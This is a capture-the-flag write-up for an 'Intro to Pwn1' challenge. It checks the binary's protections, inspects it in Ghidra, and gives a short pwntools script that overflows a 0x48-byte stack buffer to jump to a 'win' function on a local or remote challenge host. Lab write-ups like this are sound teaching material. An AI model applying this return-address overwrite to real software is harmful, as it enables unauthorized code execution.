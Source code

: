 ## Intro to Pwn1

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.

![ghidra1](./screenshots/ghidra1.png)

![ghidra2](./screenshots/ghidra2.png)

Just a very simple buffer overflow and we even have a win function to jump to.  The stack is 0x48 bytes before the return address.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn1")

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 35932)
elif args.GDB:
    p = gdb.debug(binary.path)
else:
    p = process(binary.path)

payload = b""
payload += b"A" * 0x48

payload += p64(binary.symbols['win'])

p.sendline(payload)

p.interactive()
```

![exploit](./screenshots/exploit.png)

Success!